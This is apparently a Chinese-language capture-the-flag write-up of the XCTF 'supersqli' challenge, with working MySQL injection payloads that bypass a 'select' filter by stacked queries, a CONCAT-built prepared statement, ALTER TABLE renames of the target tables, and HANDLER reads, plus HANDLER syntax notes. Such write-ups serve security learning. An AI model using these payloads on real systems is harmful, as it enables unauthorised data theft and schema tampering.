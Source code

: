 ## 一题引出对Mysql中handler思考

### 题目

这是一道`攻防世界`里的`supersqli`题目，网址为

https://adworld.xctf.org.cn/task/answer?type=web&number=3&grade=1&id=5417&page=1

### 解题

初始界面为：

![image-20200621155254852](一题引出对Mysql中handler思考.assets/image-20200621155254852.png)



通过输入单引号`1'`，根据回显结果可知道这是一个字符型SQL注入

![image-20200621155348312](一题引出对Mysql中handler思考.assets/image-20200621155348312.png)



通过`1' order by 2--+`以及`1' order by 3--+`判处列数为2

通过`1' union select 1,2--+`，会返回过滤代码

![image-20200621155922039](一题引出对Mysql中handler思考.assets/image-20200621155922039.png)

过滤掉`select`查询数据就比较困难，这里列举`三种`绕过过滤方法

### 方法一：预编译

1. 使用堆叠注入

```
-1';show tables#
```

![image-20200621160830158](一题引出对Mysql中handler思考.assets/image-20200621160830158.png)

2. 查看字段

```
-1';show columns from `1919810931114514`#
-1';show columns from `words`#
```

![image-20200621161033295](一题引出对Mysql中handler思考.assets/image-20200621161033295.png)

![image-20200621161102085](一题引出对Mysql中handler思考.assets/image-20200621161102085.png)

3. 使用预编译查看值

```
-1';sEt @sql = CONCAT('se','lect * from `1919810931114514`;');prEpare stmt from @sql;EXECUTE stmt;#
```

![image-20200621161149885](一题引出对Mysql中handler思考.assets/image-20200621161149885.png)

### 方法二：表名列名替换

1. 根据输入`1`返回的结果，我们大体可以猜到SQL语句为：

`select * from wordls where id=1;`

2. 所以我们可以将表`1919810931114514`名字改为`words`，`flag`列名字改为`id`，那么就能得到flag的内容:
   - 修改表名（将表名`user`改为`users`
   - 修改列名（将字段username改为name)

3. 最终paylaod如果：

```
1';alter table words rename to words1;alter table `1919810931114514` rename to words;alter table words change flag id varchar(50);#
```

4. 然后使用1' or 1=1# 即可查询出`flag`

![image-20200621162231240](一题引出对Mysql中handler思考.assets/image-20200621162231240.png)



### 方法三：handler

使用`handler查询`,payload如下：

```
-1';handler `1919810931114514` open;handler `1919810931114514` read first;#
```



### handler知识点

`handler`语句：

```
HANDLER tbl_name OPEN [ [AS] alias]

HANDLER tbl_name READ index_name { = | <= | >= | < | > } (value1,value2,...)
    [ WHERE where_condition ] [LIMIT ... ]
HANDLER tbl_name READ index_name { FIRST | NEXT | PREV | LAST }
    [ WHERE where_condition ] [LIMIT ... ]
HANDLER tbl_name READ { FIRST | NEXT }
    [ WHERE where_condition ] [LIMIT ... ]

HANDLER tbl_name CLOSE
```

`handler table_name open`打开一张表

`handler table_name read first`读物第一行内容

`handler table_anme next`依次获取其他行

最后一行执行之后再执行`handler table_name read next`会返回一个空结果



### 参考文章

1. [攻防世界-web-高手进阶区017-supersqli](https://www.cnblogs.com/joker-vip/p/12483823.html)
2. [Mysql HANDLER语句](https://www.jianshu.com/p/81fad5351736)
3. [supersqli](https://blog.csdn.net/nicesa/article/details/106390405)